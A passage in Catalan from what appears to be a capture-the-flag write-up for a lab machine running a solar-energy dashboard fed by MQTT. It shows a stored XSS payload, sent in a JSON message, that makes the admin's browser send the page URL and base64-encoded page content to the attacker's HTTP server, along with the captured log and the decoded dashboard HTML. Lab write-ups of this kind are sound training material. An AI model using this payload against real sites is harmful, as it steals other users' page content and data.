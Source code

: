 Veiem que la cookie de sessió està configurada com a `HttpOnly`, `Secure` i amb la política `SameSite` com a `Strict`. No trobem cap lloc al servidor on es mostrin les capçaleres (com el típic `phpInfo();`). Serà molt difícil robar la cookie d'un altre usuari, però podem intentar visualitzar el que ell està veient, ja que les capçaleres CSP no estan configurades.

Segons les converses del fòrum `www.sunfriends.nyx`, és molt probable que l'usuari `JulianAdm` estigui visualitzant el Dashboard.

Levantem un servidor al port 80 amb Python:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

I enviem el següent `JSON` mitjançant `MQTTX` al topic `data` amb la nostra adreça IP:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?url='+encodeURIComponent(window.location.href)+'&code='+btoa(document.body.outerHTML);})();\"; />",
  "consumedEnergy": 15
}
```

Rebem almenys dues peticions al nostre servei HTTP al port 80, una des de la nostra IP i una altra des de la IP de la màquina.

```bash
192.168.1.168 - - [03/Sep/2024 00:18:34] "GET /?url=https%3A%2F%2Fwww.solar.nyx%2Fdashboard.php&code=PGJvZHk+CiAgICA8ZGl2IGNsYXNzPSJkYXNoYm9hcmQiPgogICAgICAgIDxvYmpl ... ZW50LmdldEVsZW1lbnRCeUlkKCdzZW5kLXJlY29yZC1pZCcpLm9uY2xpY2sgPSBzZW5kcmVjb3JkOwogICAgCiAgICA8L3NjcmlwdD4KCgo8L2JvZHk+ HTTP/1.1" 200 -
```

Si descodifiquem el base64, obtindrem el següent codi:

```html
<body>
    <div class="dashboard">
        <object class="solar-icon" data="sun.svg" type="image/svg+xml" style="width:75px;"></object>
        <h1>Solar Energy Dashboard</h1>
        <div class="user-info" id="userInfo"><span>JulianAdm</span><br>admin</div>
        <canvas id="energyChart" class="energy-chart" width="400" height="200" style="display: block; box-sizing: border-box; height: 200px; width: 400px;"></canvas>
        <div class="energy-label"><span class="solar-title">Solar:</span> <span id="solarEnergyLabel" class="energy-value solar"><span class="energy-value solar"><img src="x" onerror="(async () => {location.href='http://192.168.1.116?url='+encodeURIComponent(window.location.href)+'&amp;code='+btoa(document.body.outerHTML);})();" ;=""> kWh</span></span></div>
        <div class="energy-label"><span class="consumed-title">Consumed:</span> <span id="consumedEnergyLabel" class="energy-value consumed"><span class="energy-value consumed">15 kWh</span></span></div>
        <div class="energy-label"><span class="grid-title">Grid:</span> <span id="gridEnergyLabel" class="energy-value grid-positive"><span class="energy-value grid-positive">NaN kWh</span></span></div>
        <a href="/logout.php" class="logout-link" id="logoutLink">Logout</a>
                    <a href="/records/" class="logout-link">Records</a>
            <a href="#" class="logout-link" id="send-record-id">Send record</a>
            </div>

    <!--<script src="/mqtt.min.js"></script>-->
    
    <script src="/chart.js"></script>
    <script type="module">
        import mqtt from '/mqtt.js'
        
        let userName = "JulianAdm";
        let userRole = "admin";
```